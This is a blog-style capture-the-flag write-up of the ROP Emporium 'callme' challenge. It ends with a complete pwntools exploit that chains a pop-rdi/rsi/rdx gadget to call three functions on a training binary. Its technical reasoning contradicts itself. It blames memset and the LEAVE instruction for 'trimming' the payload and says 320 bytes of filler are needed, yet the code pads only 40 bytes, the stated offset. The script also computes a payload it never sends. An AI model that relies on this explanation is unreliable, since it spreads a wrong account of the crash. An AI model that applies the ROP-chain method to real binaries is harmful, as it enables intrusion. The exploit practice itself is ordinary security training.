 ```yaml
---
layout: post
title: ropemporium - callme
date: 2024-12-24 11:00:00 +0300
description: # Add post description (optional)
img: callme-1.png # (optional)
fig-caption: # Add figcaption (optional)
tags: ctf
---
```



*Third challenge from ropemporium. A challenge that at first glance looked pretty easy, it ended up being a mind breaking challenge where I learned how the PLT and GOT sections works expecting that this knowledge would help me in the resolution, just to discover that I just had to understand how the C function "**memset()**" works and its consequences by the "**LEAVE**" instruction at the end of it.*

The challenge give us the following guide:

> *You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d) The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments. (...)*

First checking the file protections, we can notice the following protections:
- NX (Non executable stack)

![callme]({{site.baseurl}}/assets/img/callme-1.png)

Also checking for the imported functions inside the file:

![callme]({{site.baseurl}}/assets/img/callme-2.png)

And now the symbols useful for us:

![callme]({{site.baseurl}}/assets/img/callme-3.png)

From here we can assume 3 things:
- We have an "usefulFunction" we still don't know what it does;
- The "pwnme" function is (probably) the exploitable function;
- the callme_'s  are being imported.

Sending a pattern for the file to discover the offset we need to fill the buffer, we discovered that the offset is 40 bytes, which means that 40 bytes are needed to fill the buffer, and then we can set RIP to redirect the program execution.

![callme]({{site.baseurl}}/assets/img/callme-4.png)

We know by the challenge text that we need to call a function with 3 parameters, so we already know we will need gadgets to perform that action.

Searching for gadgets to *pop rdx*, we found a very handy one:

![callme]({{site.baseurl}}/assets/img/callme-5.png)

```
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```

That gadget does exactly the process of popping 3 times to the exact calling convention order.

I started to build the payload with the following logic:
```
BUFFER FILLER (40 Bytes)
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_ONE
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_TWO
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_THREE
```

Unfortunately, for some reason I was getting a crash on "**callme_two**" and I didn't know why, and some things I've analyzed:
- If it was for the parameters, It would return "Incorrect parameters", and it wasn't the case.
- If it was the function addresses, it shouldn't fail at some of them.
- I learned how the *.plt* and *.got* section would affect the process, how those sections work and how all the dynamic linking process and runtime name resolution works instruction by instruction.

None of the answers helped me unless to acquire more knowledge.

But then I looked closer.

A very interesting point at the code instructions, is that in the very end of "**pwnme**"  function, we have a *LEAVE* instruction, caused by the *memset()* function in *C* found in reversing.

![callme]({{site.baseurl}}/assets/img/callme-6.png)

What this instruction does, basically "*sets the stack pointer to the base frame address, effectively releasing the whole frame. If you didn't do it, once you call `ret`, you would still be using the called function's stack frame with your calling function, with crashtastic consequences.*" as wisely said on [this thread](https://stackoverflow.com/questions/5474355/why-does-leave-do-mov-esp-ebp-in-x86-assembly). 

That was causing this part of the payload to be trimmed, and just call the "callme_two" first:
```
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_ONE
```

The error caused is because the program ensures that you call all the functions in properly.

So I just had to fill 5 stack positions (5 * 64 bytes) with dummies to avoid the payload corruption.

With that in mind, before the *RET* instruction, we have to fill the whole buffer part that will be released, so when the return address is met, the payload isn't trimmed.

Knowing that, we could start forging our payload with the following logic:
```
BUFFER FILLER (40 Bytes)
+ 320 BYTE MEMSET FILLER TO GO AWAY WITH "LEAVE" INSTRUCTION
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_ONE
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_TWO
+ *POP PARAMETERS GADGET
+ PARAMETERS (P1+P2+P3) ARRAY
+ CALLME_THREE
```

Putting all together, and executing the code, we got the flag!

![callme]({{site.baseurl}}/assets/img/callme-7.png)

Final exploit:
{% highlight python %}
from pwn import *

FIRST_PARAM = p64(0xdeadbeefdeadbeef)
SEC_PARAM = p64(0xcafebabecafebabe)
THIRD_PARAM = p64(0xd00df00dd00df00d)

# 8 + 32 byte filler to fill the memset frame
MEMSET_FILLER = p64(0xdeadbeefdeadbeef)*5 

PARAM_ARRAY = FIRST_PARAM+SEC_PARAM+THIRD_PARAM

CALLME_ONE = p64(0x400720)
CALLME_TWO = p64(0x400740)
CALLME_THREE = p64(0x4006f0)

# pop rdi ; pop rsi ; pop rdx ; ret
POP_PARAMS_GADGET = p64(0x40093c) 

DUMMY = p64(0x0)

elf = context.binary = ELF('./callme')

io = process(elf.path)
io.send(cyclic(50))
io.wait()

core = io.corefile
stack = core.rsp
pattern = core.read(stack, 8)

rop_chain = MEMSET_FILLER 
rop_chain += POP_PARAMS_GADGET 
rop_chain += PARAM_ARRAY 
rop_chain += CALLME_ONE 
rop_chain += POP_PARAMS_GADGET 
rop_chain += PARAM_ARRAY 
rop_chain += CALLME_TWO 
rop_chain += POP_PARAMS_GADGET 
rop_chain += PARAM_ARRAY 
rop_chain += CALLME_THREE

info("Sending payload:")
info("%r", rop_chain)

payload = flat({pattern: rop_chain})

io = process(elf.path)

io.send(rop_chain)
io.interactive()
{% endhighlight %}